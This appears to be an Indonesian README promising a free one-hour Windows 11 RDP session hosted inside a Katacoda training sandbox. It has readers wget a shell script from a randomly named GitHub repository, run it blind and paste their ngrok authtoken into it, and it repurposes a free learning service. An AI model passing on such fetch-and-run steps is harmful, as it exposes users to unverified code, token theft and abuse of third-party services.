 # Windows11 RDP
Gratis, hanya untuk kamu ya sayang. Windows 11 RDP (1 JAM) 😘

<img src="https://i.imgur.com/er8jcIF.png" width="500" />

## CARANYA:

- Buka: [Katacoda Terminal](https://www.katacoda.com/openshift/courses/subsystems/container-internals-lab-2-0-part-1)
- Scroll & klik tombol **"START SCENARIO"**
- Tunggu sampai proses terminal selesai.

### Dan paste kan perintah berikut kedalam terminal:

1. `wget -O run.sh https://raw.githubusercontent.com/EKV18iDY4z5rzUp86q0f/W11i8mipbhvTGfO6vu4K/main/run.sh`

2. `chmod +x run.sh`

3. `./run.sh`

- Sekarang login (atau buat akun) di https://ngrok.com/

- Dan salin token kamu dari sini: https://dashboard.ngrok.com/get-started/your-authtoken

- Paste token ngrok kamu di terminal.
- Kemudian sesaat setelah di build, terminal akan menampilkan kredensial rdp kamu.
- Kamu sekarang dapat login di rdp menggunakan Pengguna dan Kata Sandi tersebut.

## KREDIT:
Repo Asli: https://github.com/kmille36/Linux-to-Windows-with-QEMU

## DISKLAIMER:
   - Jangan terlalu masif menggunakan metode ini. Sewajarnya saja ya gan :)
   - Dilarang melakukan hal-hal ilegal.
   - Dilarang Hosting, Penambangan (APAPUN), Cracking.
